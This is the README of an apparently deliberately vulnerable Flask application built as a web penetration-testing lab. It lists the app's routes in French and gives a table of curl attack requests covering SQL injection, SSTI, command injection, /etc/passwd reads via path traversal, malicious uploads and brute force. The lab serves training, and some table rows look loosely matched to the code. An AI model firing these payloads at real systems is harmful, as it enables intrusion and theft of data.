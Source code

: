 # Vulnerable-Flask-App

Erlik 2 - Vulnerable-Flask-App

Tested - Kali 2022.1

## Description

It is a vulnerable Flask Web App. It is a lab environment created for people who want to improve themselves in the field of web penetration testing.

## Features

It contains the following vulnerabilities.

-HTML Injection

-XSS

-SSTI

-SQL Injection

-Information Disclosure

-Command Injection

-Brute Force

-Deserialization

-Broken Authentication

-DOS

-File Upload

## Installation

git clone https://github.com/anil-yelken/Vulnerable-Flask-App

cd Vulnerable-Flask-App

sudo pip3 install -r requirements.txt

## Usage

python3 vulnerable-flask-app.py

<img src="https://github.com/anil-yelken/Vulnerable-Flask-App/blob/main/vulnerable-flask-app.jpg">

##  REST API à tester

un script Python qui définit une application Flask. Cette application semble avoir plusieurs routes, chacune gérant différentes fonctionnalités liées à une API REST. Voici un bref aperçu de certaines des routes :

/ : Renvoie "REST API" lorsqu'il est accédé.

/user/<string:name> : Récupère les informations utilisateur d'une base de données SQLite en fonction du nom d'utilisateur fourni.

/welcome/<string:name> : Renvoie un message de bienvenue avec le nom fourni.

/welcome2/<string:name> : Renvoie un message de bienvenue avec le nom fourni, mais sans utiliser jsonify.

/hello : Démontre une injection de modèle côté serveur (SSTI) en rendant un modèle avec le nom fourni.

/get_users : Exécute une commande shell pour effectuer une recherche DNS (dig) en fonction du nom d'hôte fourni.

/get_log/ : Lit le contenu du fichier restapi.log.

/read_file : Lit le contenu d'un fichier spécifié.

/deserialization/ : Démontre un exemple simple de désérialisation en utilisant le module pickle de Python.

/get_admin_mail/<string:control> : Renvoie l'adresse e-mail de l'administrateur si le paramètre de contrôle est défini sur "admin".

/run_file : Exécute une commande shell en fonction du nom de fichier fourni.

/create_file : Crée un fichier avec le nom de fichier et le contenu spécifiés.

/factorial/<int:n> : Calcule le factoriel d'un nombre. Met en œuvre un mécanisme de limitation du taux basique.

/login : Simule un mécanisme de connexion simple.

/route : Démontre la définition dynamique du type de contenu de la réponse.

/logs : Enregistre des données dans le fichier restapi.log.

/user_pass_control : Vérifie si le mot de passe inclut le nom d'utilisateur.

/upload : Gère les téléchargements de fichiers.


+-----------------------------------------+-----------------------+---------------------------------------------------------------------------+------------------------------------------+
|           Vulnérabilité                   |     Type d'Attaque    |                       Exemple de Requête Malveillante                     |                Commentaire                 |
+-----------------------------------------+-----------------------+---------------------------------------------------------------------------+------------------------------------------+
| Injection SQL dans `/user/<string:name>` | Injection SQL         | `curl http://adresse_ip:8081/user/' OR 1=1; --`                          | Exploite une injection SQL pour contourner l'authentification. |
| Server-Side Template Injection (SSTI)    | Server-Side Template  | `curl http://adresse_ip:8081/hello?name={{7*7}}`                         | Exploite la vulnérabilité SSTI pour évaluer une expression Python côté serveur. |
| Command Injection dans `/get_users`      | Command Injection     | `curl http://adresse_ip:8081/get_users?hostname=; ls /`                  | Exploite une injection de commande pour exécuter la commande `ls /` sur le serveur. |
| Lecture de Fichier dans `/read_file`     | Lire des Fichiers      | `curl http://adresse_ip:8081/read_file?filename=/etc/passwd`            | Exploite une vulnérabilité de lecture de fichier pour lire le fichier `/etc/passwd`. |
| Deserialization dans `/deserialization/` | Deserialization        | `curl http://adresse_ip:8081/deserialization/ -d 'pickled_data_here'`  | Exploite une vulnérabilité de désérialisation en envoyant des données sérialisées malveillantes. |
| Injection de Commande dans `/run_file`   | Injection de Commande  | `curl http://adresse_ip:8081/run_file?filename=file_to_run.sh`         | Exploite une injection de commande pour exécuter un fichier arbitraire sur le serveur. |
| Création de Fichier dans `/create_file`  | Création de Fichier    | `curl http://adresse_ip:8081/create_file?filename=malicious_file.txt&text=malicious_content` | Exploite la création de fichier pour écrire un fichier malveillant sur le serveur. |
| Lire des Logs dans `/get_log/`           | Lire des Fichiers      | `curl http://adresse_ip:8081/get_log/`                                  | Exploite la vulnérabilité de lecture de fichier pour lire le fichier de logs. |
| Obtention d'email d'admin dans `/get_admin_mail/<string:control>` | Bypass de Contrôle | `curl http://adresse_ip:8081/get_admin_mail/admin`                     | Exploite le contournement du contrôle pour obtenir l'email de l'admin. |
| Limite de Requête dans `/factorial/<int:n>` | Attaque par Déni de Service | `curl http://adresse_ip:8081/factorial/1000000`                      | Exploite la limitation de requête pour effectuer une attaque par déni de service. |
| Injection de Formulaire dans `/login`    | Injection de Formulaire | `curl -X GET "http://adresse_ip:8081/login?username=malicious&password=' OR '1'='1"` | Exploite une injection dans le formulaire de login. |
| Upload de Fichier Malveillant dans `/upload` | Téléchargement de Fichier Malveillant | `curl -X POST -F "file=@malicious_file.php" http://adresse_ip:8081/upload` | Exploite une mauvaise validation de fichiers pour télécharger un fichier malveillant. |
| Traversée de Répertoire dans `/read_file` | Traversée de Répertoire | `curl http://adresse_ip:8081/read_file?filename=../../etc/passwd`      | Exploite une vulnérabilité de traversée de répertoire pour lire le fichier `/etc/passwd`. |
| Énumération d'Utilisateurs dans `/get_users` | Énumération d'Utilisateurs | `curl http://adresse_ip:8081/get_users?hostname=google.com; ls /home` | Exploite une vulnérabilité pour récupérer des informations sensibles sur les utilisateurs. |
| Énumération de Fichiers dans `/get_log/` | Énumération de Fichiers | `curl http://adresse_ip:8081/get_log/../../../etc/`                   | Exploite une vulnérabilité pour récupérer des informations sensibles sur le système. |
| Modification de Logs dans `/logs`        | Modification de Logs  | `curl http://adresse_ip:8081/logs?data=malicious_log_entry`            | Exploite une vulnérabilité pour injecter des entrées malveillantes dans les logs. |
| Attaque par Force Brute dans `/login`    | Attaque par Force Brute | `curl -X GET "http://adresse_ip:8081/login?username=admin&password=bruteforce123"` | Exploite la faiblesse d'un mécanisme de login en tentant différentes combinaisons. |
| Interception de Session dans `/login`     | Interception de Session | `curl -X GET "http://adresse_ip:8081/login?username=admin&password=malicious&cookie=attacker_cookie"` | Exploite une vulnérabilité pour intercepter la session utilisateur. |
| Spoofing d'Adresse IP dans `/factorial/<int:n>` | Spoofing d'Adresse IP | `curl --header "X-Forwarded-For: attacker_ip" http://adresse_ip:8081/factorial/5` | Exploite une vulnérabilité pour simuler une adresse IP falsifiée. |
| Contournement d'Authentification dans `/get_admin_mail/<string:control>` | Contournement d'Authentification | `curl http://adresse_ip:8081/get_admin_mail/protected` | Exploite une faiblesse dans le contrôle d'authentification pour accéder à des données protégées. |
+-----------------------------------------+-----------------------+---------------------------------------------------------------------------+------------------------------------------+

